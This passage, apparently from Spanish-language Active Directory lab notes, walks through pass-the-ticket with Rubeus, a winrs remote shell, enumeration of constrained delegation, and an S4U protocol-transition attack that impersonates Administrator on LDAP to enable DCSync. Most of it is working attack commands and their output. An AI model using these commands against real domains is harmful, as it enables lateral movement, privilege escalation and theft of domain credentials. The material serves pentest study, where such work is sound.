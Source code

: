 Una vez se obtiene la contraseña, se puede usar para obtener un TGT del usuario comprometido y moverse lateralmente. 

```
## PassTheTicket
.\Rubeus.exe asktgt /user:storagesvc /password:"Qwerty@123" /domain:eu.local /ptt

## winrs
winrs -r:eu-file.eu.local cmd.exe
```
## Constrained Delegation - Protocol Transition

La delegación restringida clásica no funciona en todos las confianzas forestales, pero se puede abusar de ella una vez se tiene un punto de apoyo a través de la confianza forestal.

```
# Enumeración de Constrained Delegation sobre el bosque eu.local
### PowerView
Get-DomainUser –TrustedToAuth -Domain eu.local
Get-DomainComputer –TrustedToAuth -Domain eu.local

### Modulo ActiveDirectory
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server eu.local
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server eu.local | Select msDS-AllowedToDelegateTo -ExpandProperty msDS-AllowedToDelegateTo
```

``msDS-AllowedToDelegateTo`` mostrará los SPNs configurados, esto permite identificar sobre que cuenta y en dónde se ha configurado Constrained Delegation. 

```
### Solicitar Hash de storagesvc
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@2019 /user:storagesvc /domain:eu.local

### S4U
### Impersonar al usuario Administrator para hacer uso del servicio ldap
C:\AD\Tools\Rubeus.exe s4u /user:storagesvc /rc4:5C76877A9C454CDED58807C20C20AEAC /impersonateuser:Administrator /domain:eu.local /msdsspn:nmagent/eu-dc.eu.local /altservice:ldap /dc:eu-dc.eu.local /ptt
```

Ejecutar ``klist`` debería entregar algo como esto:

```
### klist
#0> Client: Administrator @ EU.LOCAL
    Server: ldap/eu-dc.eu.local @ EU.LOCAL
```

Impersonar al usuario Administrator y tener acceso al servicio ldap permite realizar un DCSync Attack.

- Recordar que se debe realizar el ataque DCSync en la misma consola en donde se realiza el PassTheTicket.

